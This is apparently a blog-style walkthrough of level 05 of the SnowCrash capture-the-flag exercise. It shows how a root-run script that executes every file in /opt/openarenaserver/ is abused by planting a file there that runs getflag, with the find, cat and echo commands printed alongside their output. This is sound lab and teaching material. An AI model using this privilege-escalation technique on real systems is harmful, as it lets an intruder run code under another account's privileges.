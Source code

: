 ```yaml
---
title: 42 SnowCrash Level05 - Walkthrough 👿
tags:
  - ctf
  - snowcrash
  - 42project
  - services
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:50:03
---
```



### Introduction

In level 05, we need to exploit a script (`openarenaserver`) that executes all scripts found in a specific directory (`/opt/openarenaserver/`). By placing a script containing the `getflag` command in this directory, we can obtain the flag.

### Steps:

1. **Finding Relevant Files:**
   First, we search for files owned by the user `flag05` and his group:

   ```sh
   level05@SnowCrash:~$ find / -user flag05 -group flag05 2>/dev/null
   /usr/sbin/openarenaserver
   /rofs/usr/sbin/openarenaserver
   ```

2. **Analyzing the Script:**
    We examine the contents of the openarenaserver script:

    ```sh
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```
    The script iterates through all files in /opt/openarenaserver/, executes them with a time limit of 5 seconds, and then removes them.

3. **Exploiting the Script**:
    We create a script named xploit containing the getflag command in the /opt/openarenaserver/ directory:
    ```shell
    level05@SnowCrash:~$ echo "'getflag' > /tmp/xploit" > /opt/openarenaserver/xploit
    ```

4. **Monitoring the Result**:
    We watch the content of /tmp/xploit to capture the flag:
    ```shell
    level05@SnowCrash:~$ watch cat /tmp/xploit
    Every 2.0s: cat /tmp/xploit                                           Fri Oct 27 17:02:01 2023
    Check flag. Here is your token : ************************
    ```
    The flag is obtained by executing the getflag command within the openarenaserver script.

## Conclusion
By understanding the behavior of the openarenaserver script and exploiting its functionality to execute arbitrary commands placed in the /opt/openarenaserver/ directory, we successfully obtained the flag for level 05.
